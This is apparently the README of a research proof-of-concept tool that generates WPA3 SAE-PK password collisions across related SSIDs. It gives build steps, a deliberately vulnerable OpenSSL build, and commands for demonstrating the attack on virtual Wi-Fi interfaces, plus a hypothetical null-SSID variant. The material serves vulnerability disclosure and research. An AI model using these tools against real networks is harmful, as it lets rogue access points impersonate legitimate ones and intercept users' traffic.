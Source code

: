 # WPA3 SAE-PK Password Collision Generator

## Prerequisites

First install some dependencies:

	# Kali Linux and Ubuntu:
	sudo apt-get update
	sudo apt-get install libnl-3-dev libnl-genl-3-dev libnl-route-3-dev libssl-dev \
		libdbus-1-dev git pkg-config build-essential macchanger net-tools python3-venv \
		aircrack-ng rfkill

Then compile hostapd and `sae_pk_gen`:

	cd hostapd
	cp defconfig .config
	make -j 2
	make sae_pk_gen
	cd ..


## Generation multi-network SSIDs collisions

First generate a private key:

	openssl ecparam -name prime256v1 -genkey -noout -out example_key.der -outform der

Now generate a password collision as follows:

	cd hostapd
	./sae_pk_gen cascade example_key.der 3 "FreeWifi 2.4 GHz! "

The tool will construct SAE-PK password collisions for the SSIDs `FreeWifi 2.4 GHz! `, `FreeWifi 2.4 GHz`, ...,
`Free`, and `Fre`. You can see example output in [`sae_pk_gen.txt`](hostapd/sae_pk_gen.txt).


## Testing Using Virtual Interfaces

### Building the tools

Compile `wpa_supplicant`:

	cd wpa_supplicant
	cp defconfig .config
	make -j 2
	cd ..

The latest OpenSSL is no longer affectec by the parsing flexibilities that we abuse.
For our demo attack you need to compile a local OpenSSL build that is still vulnerable
to our attack:

	./init_openssl.sh

The above command will clone the OpenSSL code and build it.


## Create Virtual Wi-Fi Interfaces

Create the virtual interfaces

	sudo modprobe mac80211_hwsim radios=3

Disable Wi-Fi in the network manager so your operating system won't interfere with our Wi-Fi tests.
The do enable Wi-Fi for manual usage using:

	sudo rfkill unblock wifi

Alternatively, you can blacklist the MAC address of your
Wi-Fi dongle so that Linux will automatically ignore the Wi-Fi dongle. This is done by adding
the [following lines](https://wiki.archlinux.org/index.php/NetworkManager#Ignore_specific_devices)
to the file `/etc/NetworkManager/NetworkManager.conf`:

	[keyfile]
	unmanaged-devices=mac:02:00:00:00:00:00

Replace `02:00:00:00:00:00` with the MAC addess of your (virtual) Wi-Fi dongle and then reboot.

## Start the AP and client

You can take the output from `sae_pk_gen` to create a configuration for the client and AP to
confirm the SAE-PK password collision attack. This repository also has two ready-made configurations
where a password collision was constructed for the networks `FreeWifi 2.4 GHz` and `FreeWifi`.

Let's confirm that the client can connect to the `FreeWifi 2.4 GHz` configuration:

	# Open a new terminal, and in the directory hostapd execute:
	cd hostapd
	sudo ./hostapd hostapd_longssid.conf -dd -K
	# Open another terminal, and in the directory wpa_supplicant execute:
	cd wpa_supplicant
	sudo ./client.sh -D nl80211 -i wlan2 -c supp_longssid.conf -dd -K

Note that `client.sh` will start `./wpa_supplicant` using our local build of OpenSSL.
Now let's confirm that the client can connect **using the same password** to `FreeWifi`:

	# Open a new terminal, and in the directory hostapd execute:
	cd hostapd
	sudo ./hostapd hostapd_shortssid.conf -dd -K
	# Open another terminal, and in the directory wpa_supplicant execute:
	cd wpa_supplicant
	sudo ./client.sh -D nl80211 -i wlan2 -c supp_shortssid.conf -dd -K

If you inspect [`supp_longssid.conf`](wpa_supplicant/supp_longssid.conf) and [`supp_shortssid.conf`](wpa_supplicant/supp_shortssid.conf)
you will see that the client used the same SAE-PK password in both configurations, confirm that
the SAE-PK password collision was successfull.


## Appendix: Null SSID Attack

**Note: this is a hypothetical attack if SSIDs longer than 32 characters are allowed.**
Currently SSIDs are limited to a maximum of 32 bytes meaning this attack is currently
only feasible against clients that incorrectly are willing to connect to networks with
a name longer than 32 bytes.

First generate two private keys:

	openssl ecparam -name prime256v1 -genkey -noout -out example_key1.der -outform der
	openssl ecparam -name prime256v1 -genkey -noout -out example_key2.der -outform der

Now generate a password collision as follows:

	cd hostapd
	./sae_pk_gen nullssid example_key1.der example_key2.der 3 Network Network_Other

The tool will output configuration lines to configure two APs.
Note that the first SSID `Network` must be a prefix of the other SSID `Network_Other`.
We can only generate password collisions for SSIDs where one is a prefix of the other.
The two private keys can be the same key.

